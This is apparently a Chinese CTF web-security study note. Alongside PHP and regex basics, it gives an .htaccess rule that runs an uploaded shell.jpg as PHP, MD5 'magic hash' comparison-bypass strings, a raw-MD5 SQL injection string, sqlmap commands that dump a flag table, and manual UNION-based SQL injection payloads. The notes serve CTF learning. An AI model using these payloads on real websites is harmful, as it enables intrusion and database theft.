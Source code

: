 ```yaml
---
title: ctf web笔记
date: 2020-04-07 09:05:05
updated: 2020-04-08 09:05:05
categories: web
---
```


ctf-web学习笔记（2020.4.7）

<!--more-->

# 域名解析

   `C:\Windows\System32\drivers\etc`

------

# 文件包含漏洞利用

   <a href="https://www.freebuf.com/articles/web/182280.htm" target="_blank">Web安全实战系列：文件包含漏洞 </a>

------

# 正则表达式

 [正则表达式]( https://deerchao.cn/tutorials/regex/regex-1.htm )

| 代码语法 |            说明            |
| :------: | :------------------------: |
|    .     | 匹配除换行符以外的任意字符 |
|    \w    |       匹配字母或数字       |
|    \s    |      匹配任意的空白符      |
|    \d    |          匹配数字          |
|    \b    |    匹配单词的开始或结束    |
|    ^     |      匹配字符串的开始      |
|    $     |      匹配字符串的结束      |

------

# 拼图

```
    montage *.jpg -tile MxN -geometry axb+0+0 out.jpg    (合成一张大图)

    将目录中的jpg文件按顺序拼成x轴M块，y轴N块，每个图块大小为axb像素，输出文件为out.jpg    
```

```
    gaps --image=out.jpg --generations=50 --population=120 --size=50   （拼图）
    
    --image            指向拼图的路径
    --size            拼图块的像素尺寸
    --generations    遗传算法的代的数量
    --population    个体数量
    --verbose        每一代训练结束后展示最佳结果
    --save            将拼图还原为图像
```

------

# PHP中的全局变量global和$GLOBALS的区别

- globle
  ​    Global的作用是定义全局变量,但是这个全局变量不是应用于整个网站,而是应用于当前页面,包括include       或require的所有文件。
- $GLOBALS
     　在 $GLOBALS 数组中，每一个变量为一个元素，键名对应变量名，值对应变量的内容。$GLOBALS 之所以在全局范围内存在，是因为 $GLOBALS 是一个超全局变量。注意$GLOBALS 的写法，比如变量$a1,写法为$GLOBALS['a1']。
     　$GLOBALS [一个包含了全部变量的全局组合数组]

```
function test_global() 
{ 
global $var1, $var2; 
$var2 =& $var1; 
} 
function test_globals() 
{ 
$GLOBALS['var3'] =& $GLOBALS['var1']; 
} 
$var1 = 5; 
$var2 = $var3 = 0; 

test_global(); 
print $var2; //输出结果为0

test_globals(); 
print $var3; //输结果为05
```

------



# file_get_contents($fn)

file_get_contents功能是从文件名为“$fn”的文件中读取数据，但是当$fn的值为“php://input”，它会接受并返回post的值

------

# htaccess文件解析

如果Apache中.htaccess可被执行并可被上传，那么可以尝试在.htaccess中写入：

```
<FilesMatch "shell.jpg">
SetHandler application/x-httpd-php
</FilesMatch>
```

然后再上传shell.jpg的木马，这样shell.jpg就可被解析为PHP文件了。



# Disearch

```
               python D:\file\dirsearch\dirsearch.py -u http://148.70.62.239:10091/ -e *
```

------

# MD5漏洞

```
1. 如果两个字符经MD5加密后的值为 0exxxxx形式，就会被认为是科学计数法，且表示的是0*10的xxxx次方，还是零，都是相等的。

下列的字符串的MD5值都是0e开头的：
QNKCDZO
240610708
s878926199a
s155964671a
s214587387a
s214587387a


2. md5()函数无法处理数组，如果传入的为数组，会返回NULL，所以两个数组经过加密后得到的都是NULL,也就是相等的。
```

# SQL注入

## md5($password,true)

```
sql注入中 该函数的输出是原始二进制格式，会被作为字符串处理。因此我们希望构建一个字符串，这个字符串经过md5加密后输出的原始二进制（作为字符串处理）刚好是注入语句。
要让md5($password,true) 编码后 二进制转字符串为  'or 'xxx
这样sql 为    and password=''or'xx'   ''or'xx'=true    这样查询结果为真
生成md5('key',true)二进制序列化为'or'开头的有：
e58  
ffifdyop  
129581926211651571912466741651878684928
```

# sqlmap

### POST型

```
1. python /usr/share/sqlmap/sqlmap.py -r 1.txt -p id --current-db
2. python /usr/share/sqlmap/sqlmap.py -r 1.txt -p id -D skctf_flag
3. python /usr/share/sqlmap/sqlmap.py -r 1.txt -p id -D skctf_flag --tables
4. python /usr/share/sqlmap/sqlmap.py -r 1.txt -p id -D skctf_flag -T fl4g --columns
5. python /usr/share/sqlmap/sqlmap.py -r 1.txt -p id -D skctf_flag -T fl4g -C "skctf_flag" --dump
```

```
sql手动注入
第一步：判断环境，寻找注入点
  确定注入点：用’报错就有注入的希望 and 1=1 正常 and 1=2 报错就基本能注入
第二步：猜解字段
  ' order by 3 # 
第三步：联合查询
  0' union select 1,2,3,4#
第四步：爆表
    0' union select 1,database(),user(),version()#
  
   [查表名] id=0' union select 1,(select group_concat(table_name) from information_schema.tables wheretable_schema=database()),user(),version()#           
  
   [查列名]id=0' union select 1,(select group_concat(column_name) from information_schema.columns where table_schema=database()and table_name='表名‘),user(),version()#           
  
   [查数据]id=0' union select 1，(select 列名 from 表名),user(),version()#         
```

